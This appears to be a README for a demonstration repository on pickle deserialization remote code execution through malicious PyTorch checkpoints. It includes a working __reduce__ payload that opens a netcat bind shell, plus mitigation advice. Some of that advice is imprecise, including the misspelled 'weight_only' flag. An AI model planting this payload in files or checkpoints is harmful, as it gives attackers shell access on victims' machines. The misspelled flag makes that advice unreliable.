 # Pickle Remote Code Execution (RCE) Vulnerability

This repository demonstrates a security vulnerability in Python's `pickle` module that can lead to remote code execution (RCE). The `pickle` module is used for serializing and deserializing Python objects, but it can execute arbitrary code during deserialization, making it dangerous to use with untrusted data.

## Repository Structure

- `gen_clean_ckpt.py`: Script to generate a clean checkpoint.
- `gen_payload_ckpy.py`: Script to generate a payload checkpoint.
- `payload_example.py`: Example script demonstrating the pickle RCE vulnerability.
- `README.md`: This file.

## Setup

```bash
pip install torch
python gen_clean_ckpt.py
python gen_payload_ckpy.py model_checkpoint.pth
```

Now victim loads the checkpoint using `torch.load`:

```python
torch.load('malicious_checkpoint.pth')
```

Attcker can now connect to the victim's machine using netcat:

```bash
nc localhost 4444 # replace localhost with the victim's IP
```

## Understanding the Vulnerability

The `payload_example.py` script demonstrates how an attacker can exploit the pickle RCE vulnerability. Here's a breakdown of the script:

The attack works by the unpickling or deserializing of python object classes.

As certain class objects might not be easy to serialize and stored by pickle,
such as file objects, sockets, etc. The `__reduce__` method is used to define
how the object should be constructed while unpickling/deserializing.

i.e. arbitrary code execution can be achieved by defining a class with a `__reduce__` method that executes the desired code.

```python
import pickle
import os

class MaliciousPickle:
    def __reduce__(self):
        return (os.system, ('nc -lvp 4444 -e /bin/bash',))

payload = pickle.dumps(MaliciousPickle())
pickle.loads(payload) # This will execute the payload and the attacker gains control
```

## Mitigations

***Never unpickle untrusted data***. The `pickle` module is not secure against erroneous or maliciously constructed data. It is recommended to use safer alternatives like JSON, XML, or YAML for data serialization and deserialization.

### ML specific mitigations

Always use `torch.load` with the `weight_only=True` flag to load model weights only. This ensures that the model architecture is not loaded from the checkpoint, preventing the execution of arbitrary code.

Or just set the environment variable `TORCH_LOAD_DISABLE_PICKLE` to `1` to disable the use of unsafe pickle in `torch.load`.

Lastly, just switch to using **safetensor** for model checkpoints.

An instance of the vulnerability which documents how untrusted pickle data can lead to remote code execution (RCE). For more details, refer to the official CVE entry:
[CVE-2024-3568](https://nvd.nist.gov/vuln/detail/CVE-2024-3568)
